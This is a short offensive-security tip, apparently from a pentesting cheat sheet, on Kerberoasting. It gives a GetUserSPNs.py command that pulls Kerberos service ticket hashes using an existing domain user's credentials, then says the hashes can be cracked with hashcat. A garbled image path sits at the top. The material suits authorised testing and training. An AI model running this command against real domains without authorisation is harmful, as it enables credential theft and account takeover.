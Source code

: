If you have a user already on the domain. You may be able to pull Kerb hashes with GetUserSPN 

The following command will attempt to yoink hashes
`python3.9 GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>`

These can be cracked with ease using hashcat.